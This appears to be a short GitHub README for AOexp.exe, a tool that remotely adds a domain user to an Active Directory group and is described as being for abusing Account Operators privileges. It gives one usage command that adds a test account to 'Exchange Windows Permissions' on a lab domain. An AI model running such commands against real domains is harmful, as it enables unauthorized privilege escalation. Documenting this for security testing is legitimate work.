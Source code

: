 一个小工具：远程在域外将域用户加入到某一个域内用户组，主要用于accountoperaor组特权利用

A small tool: Remotely add a domain user to a specific domain group from outside the domain. Usage is as follows:
AOexp.exe -domain vultest2.com -priuser AOtest -pripass 1qaz@WSX -user AOtest -addgroup "Exchange Windows Permissions" -dc dc2012.vultest2.com

![image](https://github.com/user-attachments/assets/5eacb510-ccd5-4f2e-af8e-876628482a4c)

如果用户权限不足会爆拒绝访问，如下图：
![image](https://github.com/user-attachments/assets/9e6b56ed-4f7a-43ea-bf42-afe4f1eaba93)


